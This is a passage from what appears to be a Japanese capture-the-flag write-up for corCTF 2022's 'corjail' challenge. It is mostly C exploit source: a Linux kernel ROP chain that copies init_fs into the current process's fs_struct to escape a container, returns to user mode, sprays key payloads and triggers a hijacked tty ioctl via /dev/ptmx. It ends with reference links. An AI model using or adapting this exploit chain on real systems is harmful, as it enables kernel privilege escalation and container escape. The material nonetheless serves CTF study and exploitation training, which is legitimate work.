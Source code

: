 ```exploit.c
    *rop++ = KADDR(0xffffffff82589740); // &init_fs
    *rop++ = KADDR(0xffffffff812e7350); // copy_fs_struct
    *rop++ = KADDR(0xffffffff8131dab0); // push rax; pop rbx

    *rop++ = KADDR(0xffffffff81906510); // pop rdi
    *rop++ = getpid();
    *rop++ = KADDR(0xffffffff810e4fc0); // find_task_by_vpid

    *rop++ = KADDR(0xffffffff8117668f); // pop rdx
    *rop++ = 0x6E0;
    *rop++ = KADDR(0xffffffff81029e7d); // add rax, rdx
    *rop++ = KADDR(0xffffffff817e1d6d); // mov qword [rax], rbx ; pop rbx ; ret ; (1 found)
    *rop++ = 0; // trash


    *rop++ = KADDR(0xffffffff81c00ef0 + 0x16); // swapgs_restore_regs_and_return_to_usermode + 0x16
                                               // mov rdi,rsp; mov rsp,QWORD PTR gs:0x6004; push QWORD PTR [rdi+0x30]; ...
    *rop++ = 0;
    *rop++ = 0;
    *rop++ = (ulong)NIRUGIRI;
    *rop++ = user_cs;
    *rop++ = user_rflags;
    *rop++ = (ulong)krop_stack + KROP_USTACK_SIZE / 2;
    *rop++ = user_ss;

    printf("[+] size: 0x%lx\n", (ulong)rop - (ulong)key_payload);
    assert((ulong)rop - (ulong)key_payload <= NUM_3RD_KEY_SIZE);
    assert(512 < NUM_3RD_KEY_SIZE + 0x10 && NUM_3RD_KEY_SIZE + 0x10 < 1024);
    for (int ix = 0; ix != NUM_3RD_KEY_SPRAY; ++ix) alloc_key(key_payload, NUM_3RD_KEY_SIZE + 0x10, NULL);
  }

  // Invoke tty_struct.ops.ioctl
  puts("[+] ioctl-ing to /dev/ptmx");
  for (int ix = 0; ix != NUM_TTY_SPRAY; ++ix) {
    ioctl(tty_fd[ix], 0x1234567890, 0xABCDE0000);
  }

  // end of life (unreachable)
  puts("[ ] END of life...");
  //sleep(999999);
}
```

# 参考

- [Author's writeup](https://syst3mfailure.io/corjailhttps://syst3mfailure.io/corjail)
- [corCTF2022 archive](https://github.com/Crusaders-of-Rust/corCTF-2022-public-challenge-archive/tree/master/pwn/corjail/task/build)
